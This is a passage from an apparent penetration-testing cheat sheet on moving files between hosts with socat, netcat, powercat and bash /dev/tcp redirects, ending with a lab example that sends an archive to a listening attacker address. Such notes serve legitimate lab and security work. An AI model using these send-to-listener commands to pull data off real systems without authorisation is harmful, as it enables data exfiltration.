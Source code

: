 * fork = create a child process once the connection is made, it allows multiple connections.
* file: = specify the file to transfer

Receiver:

```
socat TCP4:192.168.1.2:443 file:file.txt,create
```

* create = specify to create a new file

## Transfer via Netcat

On the receiving host:

```
nc -nlvp 4444 > outputfile.exe
```

On the host that has the file that you want to send:

```
nc -nv 192.168.1.2 4444 < /usr/inputfile.exe
```

Alternatively, you can send it like this:

```
nc.exe -w 3 <IP> 4455 < inputfile.doc
```

## Transfer via Powercat

Send a file:

```
powercat -c IP -p PORT -i C:\Users\name\file.ps1
```

* \-c = client mode
* \-p = port
* \-i = indicate file

Receive a file:

```
sudo nc -lvnp PORT > received_file.ps1
```

## Transfer via /dev/tcp

We can transfer files with /dev/tcp (send):

```bash
cat aogiri-app.7z > /dev/tcp/10.10.16.7/1234
```

Download (receive) with nc:

```bash
❯ nc -lvnp 1234 > aogiri-app.7z
listening on [any] 1234 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.101] 44864
❯ ls
 aogiri-app.7z
```
